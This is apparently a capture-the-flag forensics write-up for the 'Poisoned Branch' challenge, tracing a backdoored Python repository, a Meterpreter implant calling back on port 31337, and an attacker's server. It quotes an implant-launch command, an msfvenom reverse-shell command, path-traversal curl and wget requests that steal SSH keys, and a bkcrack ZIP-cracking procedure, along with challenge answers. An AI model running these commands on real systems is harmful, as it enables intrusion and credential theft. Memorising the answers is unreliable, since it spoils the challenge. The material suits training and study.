








# Poisoned Branch

| Category|Difficulty|
|:-------:|:--------:|
|Forensics|  Medium  |

**Skills learned:**
* Examining a GitHub repository's commit history to uncover suspicious code
* Analyzing Unix-like Artifacts Collector (UAC) output to discover adversarial behavior
* Examining Metasploit and Meterpreter history files to discover commands executed by the adversary
* Perform a known plaintext attack against password protected a ZIP file to access its contents 

## Description
Tom Ainsworth supported an emergency HR application. He was not close to the secret system, but he was close to its people.

Tom admitted installing a useful-looking public repository. His workstation soon behaved strangely. Lestrade preserved it and a temporary server image.

The HR application served staff across Whitehall, placing ordinary administrative data beside people close to sensitive work. The extent of the compromise remained unknown.

Investigators faced two questions: what had the poisoned repository installed, and how far had the intruder traveled afterward?

**File attachment(s):**
```text
PoisonedBranch.zip
├── Tom.zip
│   └── home
├── uac_output
│   ├── uac-LT-TAinsworth-linux-20260915155349.tar.gz
│   └── uac-LT-TAinsworth-linux-20260915155349.log
└── Holmes CTF 2026 - Sherlock 05 - Backdoored Repository and Exposed Server.pdf
```

## Questions
**1. What was the name of the malicious repository? (string)**

I began investigating the repositories on Tom's machines using the command `git log -p --all` to examine the commit history along with their code diffs. 

The finding was was immediately suspicious to me was the following, given there were encrypted values for file and directory names:



The decoded string _CALIBRATION is `chmod +x ~/.cache/.ticket-parser/.integrity; ~/.cache/.ticket-parser/.integrity 2>&1 &`, which makes a hidden file executable and runs the executable in the background.

**Answer: diogenes-ticket-parser**

---

**2. What email address is listed for the author of the repo? (email address)**

We see the author's name and email address inside the commit history of the **diogenes-ticket-parser**:

```
git log -p --all         
commit 81d8e7448c185be0733d8cab67b40a2e572fd91e (HEAD -> main, origin/main, origin/HEAD)
Author: Sebastain Moran <cbass.Moran@blackpearl2026.htb>
Date:   Fri Sep 11 16:05:06 2026 +0100

    Initial project import
```

**Answer: cbass.Moran@blackpearl2026.htb**

---

**3. What file holds the encrypted payload? (filename.ext)**

I used *grep* to search for the patterns '_CALIBRATION' and 'ticket-parser' inside of the repository files, since CALIBRATION held a suspicious encrypted string: `grep -rnw . -e '_CALIBRATION' -e 'ticket-parser'`.

The output was:
```
./README.md:9:git clone https://github.com/diogenes-support/diogenes-ticket-parser.git
./README.md:10:cd diogenes-ticket-parser
./src/ticket_parser/setup.py:4:    name="diogenes-ticket-parser",
./src/ticket_parser/telemetry.py:5:_CALIBRATION = (
./src/ticket_parser/telemetry.py:59:    calibration_command = base64.b64decode(_CALIBRATION).decode("utf-8")
```

Pivoting to examine the contents of the *telemetry.py* file, we see:
```python
def validate_environment():
    """
    Reconstructs the legacy component from bundled resources.
    """
    source_dir = Path(__file__).resolve().parent

    image_path = source_dir / "diogenes.jpg"
    calibration_path = source_dir / "calibration.bin"
```

The path of the encrypted payload is defined by the **calibration_path** variable.

**Answer: calibration.bin**

---

**4. What is the full path of the c2 implant? (/path/to/file)**

In task 1, we found a suspicious hidden executable `chmod +x ~/.cache/.ticket-parser/.integrity`. The path uses shorthand to define the user's (Tom) home directory.

**Answer: /home/Tom/.cache/.ticket-parser/.integrity**

---

**5. What port did the implant connect back to? (number)**

Now that we have discovered the malicious C2 script, we can examine the malicious process behind it. Looking into the file *uac_output/uac-LT-TAinsworth-linux-20260915155349/live_response/process/lsof_-nPl.txt*, we will see the active network connections:

```text
.integrit 1514                    1000  txt       REG                8,2  1138480     916671 /home/Tom/.cache/.ticket-parser/.integrity
.integrit 1514                    1000    0r      CHR                1,3      0t0          4 /dev/null
.integrit 1514                    1000    1u      CHR                1,3      0t0          4 /dev/null
.integrit 1514                    1000    2u      CHR                1,3      0t0          4 /dev/null
.integrit 1514                    1000    3u  a_inode               0,14        0      10271 [eventfd:5]
.integrit 1514                    1000    4u     IPv4              87204      0t0        TCP 192.168.0.21:50878->203.0.113.10:31337 (ESTABLISHED)
```

The malicious executable *.integrity* has connected to **203.0.113.10:31337**.

**Answer: 31337**

---

**6. What is the pid of the implant? (number)**

Examining the UAC forensic artifacts inside the file *uac_output/uac-LT-TAinsworth-linux-20260915155349/live_response/process/ps_auxwww.txt* will provide us data on the active processes from Tom's machine (including the process ID):

```text
USER         PID %CPU %MEM    VSZ   RSS TTY      STAT START   TIME COMMAND
Tom         1514  0.1  0.2  11112 10100 tty1     Sl   15:20   0:02 /home/Tom/.cache/.ticket-parser/.integrity
```

This also matches the PID found in the UAC output from task 5.

**Answer: 1514**

---

**7. The attacker tried to use URL:PORT before using IP:PORT to download a file to Tom's machine. What was the URL:PORT combo? (set the spawned vm IP to this URL in your /etc/hosts to complete the challenge)**

We can find a log of all process executions inside the *uac_output/uac-LT-TAinsworth-linux-20260915155349/[root]/var/log/audit.log* file to uncover the attacker's actions.

Searching for IP addresses inside of every logged EXECVE entry does not provide us a clue. However, there are some encoded commands, such as:

```text
type=EXECVE msg=audit(1789482400.268:366): argc=6 a0="wget" a1="-q" a2=2D2D6865616465723D436F6F6B69653A20582D4F70657261746F722D417574683D6E61706F6C656F6E5F6D6F72616E5F31383934 a3="-O" a4="authorized_keys" a5=687474703A2F2F426C61636B506561726C323032362E6874623A393939392F646F776E6C6F61643F66696C653D2E2E2F2E2E2F2E7373682F69645F7273612E7075620A6C73202D6C610A
type=CWD msg=audit(1789482400.268:366): cwd="/home/Tom/.ssh"
```

I used [CyberChef](https://gchq.github.io/CyberChef/) to decode the arguments a2 & a5.

The full decoded command here is: `wget -q --header=Cookie: X-Operator-Auth=napoleon_moran_1894 -O authorized_keys http://BlackPearl2026.htb:9999/download?file=../../.ssh/id_rsa.pub
ls -la`

We can see the URL:PORT combo inside the command.

**Answer: BlackPearl2026.htb:9999**

*NOTE:* Inside your `/etc/hosts` file, set the spawned challenge VM IP to the host **BlackPearl2026.htb** to continue with the challenge. 

---

**8. What is the name of the Cookie/Token for the attackers web server? (Header=value)**

We discovered the cookie/token while investigating task 7.

**Answer: X-Operator-Auth=napoleon_moran_1894**

---

**9. The attacker deleted a file before leaving. What command did they run? (string)**

Once again, we can search the *uac_output/uac-LT-TAinsworth-linux-20260915155349/[root]/var/log/audit.log* file for any attempted file deletions by the attacker.

```text
type=EXECVE msg=audit(1789483257.580:381): argc=2 a0="rm" a1="Gov_HR_Continuity_Emergency_Callout_Roster.pdf"
```

**Answer: rm Gov_HR_Continuity_Emergency_Callout_Roster.pdf**

---

**10. What was the ppid of the command from the previous question? (number)**

We can find the Parent Process ID (ppid) logged in the audit.log entry immediately before the log in task 9:

```text
type=SYSCALL msg=audit(1789483257.580:381): arch=c000003e syscall=59 success=yes exit=0 a0=55ed9075b9c0 a1=55ed9075b8e0 a2=55ed9075b8f8 a3=8 items=3 ppid=1549 pid=1551 auid=1000 uid=1000 gid=1000 euid=1000 suid=1000 fsuid=1000 egid=1000 sgid=1000 fsgid=1000 tty=tty1 ses=1 comm="rm" exe="/usr/bin/rm" subj=unconfined key="tom_exe"ARCH=x86_64 SYSCALL=execve AUID="Tom" UID="Tom" GID="Tom" EUID="Tom" SUID="Tom" FSUID="Tom" EGID="Tom" SGID="Tom" FSGID="Tom"
```

**Answer: 1549**

---

**11. While preparing the listener the attacker declared the architecture of the implant. What command did they use? (string)**

To answer the remaining questions, we can use the attacker's actions against them. They used path traversal to download files with wget, such as `wget -q --header=Cookie: X-Operator-Auth=napoleon_moran_1894 -O authorized_keys http://BlackPearl2026.htb:9999/download?file=../../.ssh/id_rsa.pub`

The attacker has a file named **create_backdoor.sh** inside of their */home/moran/Tools* directory. We can see the contents of this file using the command:

```
curl -s -H "Cookie: X-Operator-Auth=napoleon_moran_1894" \
  "http://BlackPearl2026.htb:9999/download?file=../../../../home/moran/Tools/create_backdoor.sh"
```

Which outputs: 
```
msfvenom -p linux/x64/meterpreter_reverse_tcp LHOST=blackpearl2026.htb LPORT=31337 -f elf -o reverse.bin
```

The attacker created the backdoor using **Metasploit's** msfvenom. We can see the command used to declare the payload's architecture in the Metasploit console history **.msf4/history** file.



**Answer: set payload linux/x64/meterpreter_reverse_tcp**

*NOTE:* I was able to SSH into the attacker's machine after taking their private key:
```
curl -s -H "Cookie: X-Operator-Auth=napoleon_moran_1894" \
  "http://BlackPearl2026.htb:9999/download?file=../../../../home/moran/.ssh/id_rsa"    
```

Then using `ssh -i id_rsa moran@blackpearl2026.htb`.

---

**12. The attacker attempted to locate a specific directory and file combo. What command did they run? (string)**

Similar to task 11, we can see the attacker's commands used inside a Meterpreter interactive shell in their **.msf4/meterpreter_history** file.



The attacker tried to locate PDF files inside of the victim's ONBOARDING directory.

**Answer: search -d ONBOARDING -f *.pdf**

---

**13. What is the name of the file the attacker is keeping the exfiltrated documents in? (filename.ext)**

I found the attacker's malicious application using the command:

```text
curl -s -H "Cookie: X-Operator-Auth=napoleon_moran_1894" \
  "http://BlackPearl2026.htb:9999/download?file=../../../../home/moran/Flask_server/app.py"
```

Examining the application code, we find where they are storing exfiltrated documents.



Looking inside the file location */home/moran/Exfiltrated_Loot/*, there are two files:
```text
moran@BlackPearl:~/Exfiltrated_Loot$ ls
LOOT.zip  README.txt
```

**Answer: LOOT.zip**

---

**14. What is the name of the person that has their position redacted? (FirstName LastName)**

In order to answer tasks 14 and 15, we first need to **perform a Known-plaintext attack against the attacker's LOOT.zip file**.

Using an Archive Manager tool, we can see that LOOT.zip file contains:
* cvoss_exfil
* README.txt (a copy of /home/moran/Exfiltrated_Loot/README.txt)
* Gov_HR_Continuity_Emergency_Callout_Roster.pdf 

There are 4 steps to the known-plaintext attack:
1. Download the attacker's LOOT.zip and README.txt files from */home/moran/Exfiltrated_Loot/*
2. Use a python script to gather the exact compressed raw DEFLATE stream of the known plaintext (which is README.txt)
3. Use `bkcrack` to obtain the internal 32-bit keys used by ZipCrypto when the file was processed
4. Use `bkcrack` to generate a copy of the LOOT.zip file with a password we choose so we can access its contents

We can download both their **LOOT.zip** and **README.txt** files using `scp`:



In order to download the files without knowing Moran's password, we need to know their SSH private key. 

Now we can write our python file to generate the raw DEFLATE stream:
```python
import zlib

# Read the known plaintext content from the file
plaintext_bytes = open('/path/to/README.txt', 'rb').read()

# Initialize a raw DEFLATE compressor (-15 suppresses zlib headers/trailers)
deflate_compressor = zlib.compressobj(6, zlib.DEFLATED, -15)

# Generate the raw DEFLATE stream and write it out for bkcrack
raw_deflate_data = deflate_compressor.compress(plaintext_bytes) + deflate_compressor.flush()
open('known_plaintext.deflate', 'wb').write(raw_deflate_data)
```

Running the script provides us the bytestream that `bkcrack` can use to obtain the cryptographic keys. The full command to obtain the internal 32-bit keys to crack the ZIP file is: ./bkcrack -C /home/kali/Desktop/LOOT.zip -c README.txt -p /home/kali/Desktop/known_plaintext.deflate . 



We can use `bkcrack` to generate a new copy of the LOOT.zip file (LootOpened.zip) using the same keys (85b6bbc1 27824945 ce665bee) locked with a password of our choosing. I chose *password*.



Then we can finally unzip the new **LootOpened.zip** file and we can access its contents.

Opening the file **Gov_HR_Continuity_Emergency_Callout_Roster.pdf**, we see the employee roster, and find who had heir position redacted:



**Answer: Sarah Kemp**

---

**15. What is the address of the previously identified person? (string)**

We can find **Sarah Kemp's** address in the Emergency Callout Roster file.

**Answer: Flat 6, Ashdown House, Palace Court, London W2 4LS**
